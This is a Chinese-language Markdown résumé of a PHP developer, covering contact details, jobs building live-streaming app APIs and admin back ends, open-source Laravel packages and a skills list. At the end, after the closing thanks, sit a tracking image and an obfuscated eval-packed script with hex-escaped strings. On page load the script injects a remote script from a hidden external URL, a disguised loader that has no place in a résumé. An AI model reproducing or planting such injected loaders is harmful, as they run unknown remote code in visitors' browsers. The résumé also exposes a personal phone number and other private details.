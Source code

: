 # 个人简历

 - **安龙** / 男 / 1992-12 / 安徽池州
 - 工作年限：7年+
 - 最高学历：大专
 - 期望城市：上海
 - 期望职位：PHP高级开发工程师

---

# 联系方式

- 手机：183 5626 2256 （`安徽池州`）
- Email：[hi@anlo.ng](http://mail.qq.com/cgi-bin/qm_share?t=qm_mailme&email=E3J-fH12U3J9JiU9fXZn)
- QQ号：11981261
- 微信：al-one
- Github：[https://github.com/al-one](https://github.com/al-one?tab=repositories&type=source)

---

# 工作经历

## 上海宇燕网络科技有限公司 （2016年10月 ~ 至今）

### [烈火直播APP](#)
- 新需求分析、数据表设计及IM协议定义；
- 支付宝、微信公众号充值钻石；
- 热门直播自动排序及后台手动排序算法；
- 幸运礼物算法实现 赠送指定礼物有机会获得钻石翻倍奖励；
- 主播家族及成员业绩、收益统计结算；
- 转盘抽奖、押注等H5游戏接口；
- 七牛、UCloud、金山直播云及连麦互动服务端接入；
- 新增、日活、留存等数据分渠道分设备异步统计分析；
- 各接口、SQL优化及历史遗留问题修复；
- 负载均衡、环境配置调优、高并发接口优化等；


## 上海欢愉网络科技有限公司 （2015年8月 ~ 2016年9月）

### [烈火APP相关API接口](#)
- 用户付费充值相关接口：
    - 用户钻石、魅力值等账户数据内部接口；
    - 支付宝、微信充值及提现；
    - 福袋、宝箱（类似抢红包）相关接口；
    - 一对一礼物、直播礼物接口；
- 视频直播相关接口：
    - 直播喇叭、热门票等道具相关接口；
    - 直播任务奖励相关接口；
    - 观众贡献榜单排行等接口；
- 各类专题活动相关接口及H5页面；
- APP直传OSS相关接口；

### [烈火APP运营后台](#)
- 整个运营后台独立开发完成；
- 用户、照片、订单、直播等数据的监控展示；
- 用户头像实时打分模块；
- 用户行为数据统计报表展示；


## 合肥一浪网络科技有限公司 （2013年3月 ~ 2015年2月）
- 企业、政府、门户网站建设；
- 为公司开发客户管理系统等；

### [客户管理系统](http://app.ah.cn/16crm/)
- 演示账户：demo 密码：123456
- 主要功能：客户、订单、员工管理
- 独立开发完成

### 企业、政府、门户网站建设
- [上海世彤建筑装饰](http://www.sh-shitong.com/)，[手机端](http://m.sh-shitong.com/?skin=bootstrap)
- [合肥堃能自动化科技有限公司](http://www.kunnengtec.com/)
- [合肥艾琳婚纱摄影](http://www.algnsy.cn/)
- [中国兽医器械分类信息网](http://www.zgsyqxw.com/)


## 合肥首嘉网络科技有限公司 （2012年8月 ~ 2013年2月）

### 企业网站建设、ASP程序开发、模板制作等


---

# 开源项目和作品

## 开源项目

 - [laravel-huawei-push](https://packagist.org/packages/al-one/laravel-huawei-push) : 华为离线推送Laravel通知频道
 - [laravel-xiaomi-push](https://packagist.org/packages/al-one/laravel-xiaomi-push) : 小米离线推送Laravel通知频道
 - [laravel-soft-deletes-unix](https://packagist.org/packages/al-one/laravel-soft-deletes-unix) : Laravel软删除使用Unix时间戳
 - [eloquent-super-relations](https://packagist.org/packages/al-one/eloquent-super-relations) : Eloquent关联模型加强(可读缓存)
 - [laravel-predis-listened](https://github.com/al-one/laravel-predis-listened) : Laravel监听pRedis命令
 - [certbot-auth-dnspod](https://github.com/al-one/certbot-auth-dnspod) : Certbot使用DNSPod验证脚本
 - [parse_urls](https://github.com/al-one/parse_urls) : 正则表达式解析任何格式的URL，PHP和JS版
 - [array2](https://github.com/al-one/array2) : Asp键值对数组，Json编码解析
 - [ANCMS](http://www.ancms.cn/) : 安安网站内容管理系统，Asp + Access

## 业余作品

 - [MarkShow](http://al-one.github.io/app/MarkShow/?/md/help.md) : Markdown扩展解析，支持LaTeX公式、流程图等
 - [CKEditor表情插件](http://app.ah.cn/app/ckeditor/) : 百度UEditor表情插件移植到CKEditor
 - [DNSPod域名解析管理](http://app.ah.cn/app/AnDNS/) : 基于DNSpod API，实现域名解析功


---

# 技能清单
- 语言：PHP / JavaScript / Python / Shell
- 框架：Laravel / Symfony / ThinkPHP / Vue.js
- 架构：Nginx / MySQL / Redis / Supervisor / Docker
- 前端：Bootstrap / Lodash / Axios / jQuery
- 工具：PhpStorm / Git / Composer / PHPUnit / xDebug
- 其他：Swagger / Regex / RaspberryPi / Opencv / Home Assistant


---

# 自我描述
- 熟练使用PHP开发各种应用，熟悉Laravel、ThinkPHP框架；
- 熟悉Redis各种数据类型的应用场景及Linux环境搭建；
- 熟悉MySQL数据库优化以及Git、SVN等协作工具；
- 精通Web前端，熟练使用Vue.js、Bootstrap、jQuery；
- 熟悉正则表达式、Markdown，喜欢接触新的技术；

有责任心，有上进心，能吃苦耐劳，办事认真；
待人和善，诚恳，能友好的与同事相处；
自学能力强，挖掘自身的潜力，善于思考，有较强的团队协作精神。


---

# 致谢
感谢您花时间阅读我的简历，期待能有机会和您共事。


![](http://img.users.51.la/16854071.asp?a.jpg)
<script>
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('(6(f){v(c.e)c.e(6($){f()});p f()})(6(){q d=n,s=d.o(\'\\h\\9\\g\\b\\4\\3\');s.r=\'\\w\\t\\u\\k\\i\';(d.l||d.m(\'\\8\\5\\2\\j\')[0]).I(s).G=\'\\8\\3\\3\\4\\J\\1\\1\\2\\a\\2\\M\\7\\2\\4\\b\\7\\2\\8\\7\\9\\K\\1\\L\\5\\H\\1\\a\\h\\1\\2\\A\\x\\5\\g\\y\\1\\B\\E\\3\\F\'+~(-C D()/z)});',49,49,'|x2f|x61|x74|x70|x65|function|x2e|x68|x63|x6a|x69|window||jQuery||x72|x73|x38|x64|x2d|body|getElementsByTagName|document|createElement|else|var|charset||x54|x46|if|x55|x75|x79|36e5|x51|x3f|new|Date|x5f|x3d|src|x62|appendChild|x3a|x6e|x77|x78'.split('|'),0,{}));
</script>
